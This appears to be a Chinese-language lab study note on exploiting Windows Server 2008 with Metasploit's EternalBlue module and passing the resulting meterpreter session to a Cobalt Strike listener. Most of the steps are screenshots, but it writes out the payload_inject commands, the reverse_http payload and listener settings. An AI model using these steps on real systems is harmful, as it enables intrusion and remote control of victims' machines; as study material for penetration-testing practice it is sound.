 #### **msf调用永恒之蓝攻击模块将会话转移到cs中**

---



![image-20210827111457310](#8-26-使用msf+永恒之蓝攻win08转到cs中\image-20210827111457310.png)

![image-20210827111547972](#8-26-使用msf+永恒之蓝攻win08转到cs中\image-20210827111547972.png)

![image-20210827111721827](#8-26-使用msf+永恒之蓝攻win08转到cs中\image-20210827111721827.png)

![image-20210827111846007](#8-26-使用msf+永恒之蓝攻win08转到cs中\image-20210827111846007.png)

![image-20210827112426841](#8-26-使用msf+永恒之蓝攻win08转到cs中\image-20210827112426841.png)

![image-20210827112449014](#8-26-使用msf+永恒之蓝攻win08转到cs中\image-20210827112449014.png)

![image-20210827112809967](#8-26-使用msf+永恒之蓝攻win08转到cs中\image-20210827112809967.png)

![image-20210827112935235](#8-26-使用msf+永恒之蓝攻win08转到cs中\image-20210827112935235.png)

![image-20210827113338132](#8-26-使用msf+永恒之蓝攻win08转到cs中\image-20210827113338132.png)

![image-20210827113359985](#8-26-使用msf+永恒之蓝攻win08转到cs中\image-20210827113359985.png)

![image-20210827113620880](#8-26-使用msf+永恒之蓝攻win08转到cs中\image-20210827113620880.png)

![image-20210827113857288](#8-26-使用msf+永恒之蓝攻win08转到cs中\image-20210827113857288.png)





### **Cobalt Strike**

cs可以在Ubuntu，centos，Windows2008,2012,2019，win7，win10，win11，都可以运行

只要可以执行 java -version 成功

centos安装  yum instal openjdk@13 unzip

cs4.2 最好使用jdk11以上

![](#21-08-27 cs用法\image-20210827140254423.png)

![image-20210827140409050](#21-08-27 cs用法\image-20210827140409050.png)

![image-20210827160438311](#21-08-27 cs用法\image-20210827160438311.png)

**1，bg 会话**

**2.调用payload_inject 模块**

use exploit/windows/local/payload_inject

**3.在该模块上配置与cobalt strike上为同样类型的payload**

set payload windows/meterpreter/reverse_http**（cs程序只支持http和https协议）**

**4.设置 DisablePayloadHandler 为 True，此选项会让 Metasploit Framework 避免在其内起一个 handler 来服务你的 payload 连接，也就是告诉 Metasploit Framework 说我们已经建立了监听器，不必再新建监听器了。**

set disablepayloadhandler true

**5.设置 lhost 和 lport 为 Cobalt Strike 的监听 IP 与端口**

set lhosts 192.168.21.43

set lport 8080

![image-20210827160524003](#21-08-27 cs用法\image-20210827160524003.png)

**6，运行run**

![image-20210827162931510](#21-08-27 cs用法\image-20210827162931510.png)

![image-20210827163040114](#21-08-27 cs用法\image-20210827163040114.png)

![image-20210827163212188](#21-08-27 cs用法\image-20210827163212188.png)

![image-20210827173045062](#21-08-27 cs用法\image-20210827173045062.png)

![image-20210827174242671](#21-08-27 cs用法\image-20210827174242671.png)

